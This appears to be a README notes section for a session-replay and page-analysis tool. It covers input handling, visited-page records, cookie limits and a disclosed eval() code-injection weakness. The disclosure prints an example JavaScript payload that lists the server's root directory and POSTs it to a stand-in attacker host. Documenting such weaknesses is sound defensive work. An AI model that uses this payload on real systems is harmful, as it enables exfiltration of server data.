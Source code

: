 # Notes
### Combining inputs 
-  When input json contains both Inputs (User session recording) and (Single page analysis) it will run only (User session recording)
### Visited Pages
- For every user interaction in recorded session is new record in Visited pages. For example when user clicks on dropdown menu there will be record in visited_pages, although technically it is not new visited page. That means that additional screenshot of page with expanded dropdown will be taken with additional waterfall_analysis items but "load_time" and "dom_content_loaded_time" are not changed.
### Cookies limitations
Differences in cookies between the recording environment of client's browser and  playback environment can cause the website to behave differently.
### Possible security vulnerabilities
- (User session recording) is executing eval() function of generated code that contains parts of unsanitized code from user recorded session.
### Example of possible attack vector (When user uploads recorded seesion as provided example)
Sending content of a '/' directory 
```javascript
{{
const url = 'https://attackers-site.xyz'
const data = {
  data: require('fs').readdirSync('/'),
};
fetch(url, {
  method: 'POST', 
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify(data),
})
  .then(response => response.json())
  .then(responseData => {
    console.log('Response:', responseData);
  })
  .catch(error => {
    console.error('Error:', error);
  });
process.exit(1)
}}
```
